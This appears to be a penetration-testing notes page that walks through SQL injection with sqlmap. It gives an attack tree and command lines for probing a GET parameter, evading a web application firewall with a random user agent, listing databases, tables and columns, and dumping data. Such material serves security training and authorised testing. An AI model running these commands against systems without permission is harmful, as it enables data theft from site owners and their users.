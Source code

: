 #  Scanning a webserver with SQLMap

## Attack tree 

```text
1 Gather information with sqlmap
    1.1 Find a page url with a GET request parameter (AND)
    1.2 Test different SQL injection methods against the request parameter (AND)
    1.3 List information about the existing databases (AND)
    1.4 List information about tables present in a particular database (AND)
    1.5 List information about the columns of a particular table (AND)
    1.6 Dump the data
```

## Examples

Identify a page in the target web application that displays data and note the URL.
Use a standard HTTP GET based request against a URI with a request parameter (?id=1). This will test different SQL 
injection methods against the id parameter.
    
    # sqlmap -u http://urloftargetpage/page.php?id=1

When blocked by a Web Application Firewall (WAF), try using a different user agent with the `--randomagent` parameter.

    # sqlmap -u http://urloftargetpage/page.php?id=1 --random-agent

If SQL injections are successful, the `--dbs` parameter gives information about the database, such as the 
type of database and the database name.

    sqlmap -u http://urloftargetpage/page.php?id=1 --dbs

List information about tables present in a particular database:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> --tables

List information about the columns of a particular table:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> -T <tablenname> --columns

Dump data:

    # sqlmap -u http://urloftargetpage/page.php?id=1 -D <databasename> -T <tablename> -C <multiple columnnames separated by commas>--dump

## Tools
* [SQLMap](https://www.kali.org/tools/sqlmap/)
* [SQLMap wiki](https://github.com/sqlmapproject/sqlmap/wiki/Introduction)
* [Burp suite CE proxy](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)

## Cheatsheets
* [SQLMap cheatsheet](cheatsheets:docs/databases/sqlmap-cheatsheet)